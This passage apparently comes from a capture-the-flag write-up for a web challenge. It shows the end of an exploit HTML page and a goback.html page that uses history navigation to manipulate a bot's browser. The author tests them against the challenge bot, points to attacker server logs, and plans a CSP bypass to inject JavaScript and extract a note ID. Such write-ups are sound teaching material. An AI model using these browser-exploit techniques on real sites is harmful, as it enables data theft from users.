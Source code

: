 ```html=
        await sleep(2000); // Delay for 2 seconds

        console.log('Navigating back to debug_url using go-back.html');
        newWindow.location.href = goBackUrl;
        await sleep(2000); // Delay for 2 seconds
      } catch (error) {
        console.error('Error in exploit:', error);
      }
    };

    exploit();
  </script>
</body>
</html>
```

```html=
<!-- goback.html -->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Go Back</title>
</head>
<body>
  <script>
    window.addEventListener('DOMContentLoaded', () => {
      history.go(-2);
    });
  </script>
</body>
</html>
```

Testing it with the `bot.js` provided in the source code and using the `visit?url=http://127.0.0.1:1337/test.html`

![](https://i.imgur.com/kcJpQaf.png)

> The bot visiting the payload.

![](https://i.imgur.com/sLQCZng.png)

> Response from the server

![](https://i.imgur.com/RSGFd8y.png)

> Attacker Server logs

#### Part2

We have the note, which we can use to run the payload to extract the `noteID`. What remains now is the ability to add JS code in the note and bypass CSP.
